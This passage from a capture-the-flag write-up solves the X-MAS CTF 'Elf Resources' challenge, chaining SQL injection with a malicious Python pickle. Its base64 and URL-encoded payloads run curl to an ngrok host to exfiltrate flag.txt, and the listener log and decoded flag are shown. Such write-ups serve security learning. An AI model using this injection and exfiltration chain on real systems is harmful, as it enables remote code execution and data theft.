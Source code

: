 ```bash
$ python3 script.py 
Serialized exploit object: gASVWwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjEBjdXJsIGh0dHBzOi8vMjI5Yi05My01MS01NC0xODcuZXUubmdyb2suaW8vYGNhdCBmbGFnLnR4dHxiYXNlNjRglIWUUpQu
```

Exploited the SQL Injection vulnerability to inject the serialized object and exfiltrate the flag:

>[!question]
>What is the SQL query that the server creates to manage this requests?
>
>Assumptions: 
>- `select "/some/path/"||id from elves where id = <param>`
>- `select data from elves where id= <param>`

>[!Success] Confirm
>Random junk appended:
>![](../../zzz_res/attachments/ElfResources7.png)
>Legit object appended:
>![](../../zzz_res/attachments/ElfResources8.png)

## Exfiltrated the flag

Exploited the SQL Injection to send a request containing the serialized object (the full payload has been urlencoded in order to avoid issues related to special character inside the request):

![](../../zzz_res/attachments/ElfResources9.png)

```http
GET /0%20%75%6e%69%6f%6e%20%73%65%6c%65%63%74%20%27%67%41%53%56%57%77%41%41%41%41%41%41%41%41%43%4d%42%58%42%76%63%32%6c%34%6c%49%77%47%63%33%6c%7a%64%47%56%74%6c%4a%4f%55%6a%45%42%6a%64%58%4a%73%49%47%68%30%64%48%42%7a%4f%69%38%76%4d%6a%49%35%59%69%30%35%4d%79%30%31%4d%53%30%31%4e%43%30%78%4f%44%63%75%5a%58%55%75%62%6d%64%79%62%32%73%75%61%57%38%76%59%47%4e%68%64%43%42%6d%62%47%46%6e%4c%6e%52%34%64%48%78%69%59%58%4e%6c%4e%6a%52%67%6c%49%57%55%55%70%51%75%27 HTTP/1.1
Host: challs.htsp.ro:13001
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36
Connection: close
```

> url-decode request: 
> `0 union select 'gASVWwAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjEBjdXJsIGh0dHBzOi8vMjI5Yi05My01MS01NC0xODcuZXUubmdyb2suaW8vYGNhdCBmbGFnLnR4dHxiYXNlNjRglIWUUpQu'`

```bash
$ ngrok http 10099
...
GET /WC1NQVN7M0xmX0h1TTRuX1IzNTB1ckMzNV93MWxMXzgzX0Mwbjc0QzcxTjlfWTB1XzUwMG59 502 Bad Gateway
...
$ echo WC1NQVN7M0xmX0h1TTRuX1IzNTB1ckMzNV93MWxMXzgzX0Mwbjc0QzcxTjlfWTB1XzUwMG59 | base64 -d                                                            
X-MAS{3Lf_HuM4n_R350urC35_w1lL_83_C0n74C71N9_Y0u_500n}
```

# Flag
